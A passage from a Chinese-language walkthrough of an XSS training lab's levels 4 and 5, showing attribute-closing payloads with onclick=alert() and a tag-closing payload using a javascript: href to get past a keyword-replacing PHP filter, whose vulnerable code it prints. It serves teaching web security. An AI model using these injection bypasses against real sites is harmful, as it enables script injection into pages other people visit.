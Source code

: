 解题思路同第三关，使用：**value 标签属性闭合 + 注入事件属性**

```js
// 第 1 个双引号用于与 value 属性的第一个双引号构成闭合, 即构成 value=""
// 第 2 个双引号用于与 value 属性的第二个双引号构成闭合, 即构成 onclick="alert()"
" onclick="alert()
```

注入结果：

```html
<input name="keyword" value="" onclick="alert()">
```



## ⭐️第 05 关：标签闭合 + href属性 + JS伪协议 

在输入框直接注入 `<script>alert()</script>`，然后右击查看网页源代码，发现 <h2> 标签里面的内容被 HTML 实体化了，<input> 标签里 value 属性的部分内容有被替换过的痕迹，盲猜后端试图通过替换 JS 关键字，来防止 XSS 攻击！

```html
<h2 align=center>没有找到和&lt;script&gt;alert()&lt;/script&gt;相关的结果.</h2><center>
```

```html
<input name=keyword  value="<scr_ipt>alert()</script>">
```

来看下后端代码吧：emmm，看起来有点好笑emmm...

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<input name=keyword  value="'.$str3.'">
```

分析下吧：

```php
// 导致无法使用`直接注入法`
$str2=str_replace("<script","<scr_ipt",$str);
// 导致无法使用`注入事件属性法`
$str3=str_replace("on","o_n",$str2);
```

会发现之前使用的**所有方法均无法使用**！这里引入一个新的 XSS 攻击技巧，即利用**href属性 + JS伪协议 **：

> 不同于许多人的印象，`<a>` 标签的 href 值并非只能是 URL，而是 URI。**URI（Uniform Resource Identifier）**可以视为 URL 的超集，其不仅包含以 `protocol://address` 开头的 URL，也包含 `protocol:content` 这种形式的地址（参见 RFC 3986）。我们经常用到的有：`javascript:` 后接 js 代码，这样的 URI 打开后会运行一段 js 代码；`mailto:` 后接一个邮箱，这样的 URI 打开后会开启系统中的邮箱类应用程序，创建发送给目标地址的一封邮件。

```js
// 符号 "> 用于闭合 input 标签, 即构成 <input name="keyword" value="">
"> <a href=javascript:alert()>hack it</a>
```

注入结果：

